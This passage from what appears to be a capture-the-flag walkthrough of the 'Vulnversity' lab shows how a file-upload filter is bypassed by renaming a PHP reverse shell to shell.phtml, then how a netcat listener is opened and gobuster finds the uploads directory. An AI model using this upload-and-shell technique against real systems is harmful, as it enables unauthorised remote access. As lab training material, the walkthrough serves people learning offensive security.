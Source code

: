 Let's set the payloads

![](/assets/img/vulnversity-upload-intruder-payloads.png)

Start the attack and wait for the results. We can see how the `.phtml` payload returned a different length request. 

![](/assets/img/vulnversity-upload-form-response-length.png)

We can now exploit the service! Edit the `php-reverse-shell.php` file and edit the IP to be your `tun0` interface and a port of yuor choice (I will use 4242). Rename the file to `shell.phtml` and start listening for incoming connections on port 4242 using netcat.

```
$ mv php-reverse-shell.php shell.phtml
$ nc -lvnp 4242

Listening on [0.0.0.0] (family 0, port 4242)
```

We can now upload the `shell.phtml` and observe how we were able to bypass the filter. We need to find out the uploaded file location. We will use `gobuster` to find `/internal` subdirectories.

```
$ gobuster dir -u http://10.10.205.180:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/uploads (Status: 301)
/css (Status: 301)
```
